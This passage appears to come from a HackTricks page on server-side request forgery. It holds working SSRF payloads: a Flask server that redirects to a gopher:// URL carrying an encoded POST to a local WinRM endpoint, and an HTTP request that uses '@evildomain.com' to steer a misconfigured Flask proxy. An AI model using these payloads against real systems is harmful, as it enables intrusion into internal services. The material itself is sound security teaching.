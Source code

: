 ```python
httpd.socket = ssl.wrap_socket(httpd.socket, certfile="server.pem", server_side=True)
httpd.serve_forever()
```

```python
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)    

@app.route('/')    
def root():    
    return redirect('gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61%6e%20%48%54%54%50%2f%31%2e%31%0d%0a%48%6f%73%74%3a%20', code=301)
    
if __name__ == "__main__":    
    app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
```

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=ssrf-server-side-request-forgery) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=ssrf-server-side-request-forgery" %}

## Misconfigured proxies to SSRF

Tricks [**from this post**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies).

### Flask

<details><summary>Flask proxy vulnerable code</summary></details>

Flask allows to use **`@`** as initial character, which allows to make the **initial host name the username** and inject a new one. Attack request:

```http
GET @evildomain.com/ HTTP/1.1
Host: target.com
Connection: close
```

### Spring Boot <a href="#heading-ssrf-on-spring-boot-through-incorrect-pathname-interpretation" id="heading-ssrf-on-spring-boot-through-incorrect-pathname-interpretation"></a>
